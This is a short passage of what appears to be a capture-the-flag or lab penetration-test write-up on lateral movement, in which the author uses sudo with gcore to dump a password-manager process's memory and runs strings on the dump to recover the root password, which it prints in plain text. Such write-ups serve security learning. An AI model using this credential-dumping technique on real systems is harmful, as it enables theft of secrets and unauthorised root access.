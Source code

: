 ![](Images/Pasted%20image%2020221029154455.png)


## Lateral Movement vector
## Read root password from standard unix password manager (/usr/bin/password-store)

#### - Typed "sudo /usr/bin/gcore 493" (which is the PID of /usr/bin/password-store) which created file "core.493":

![](Images/Pasted%20image%2020221029155334.png)

#### - Typed "strings core.493" and found roots password "ClogKingpinInning731":

![](Images/Pasted%20image%2020221029155429.png)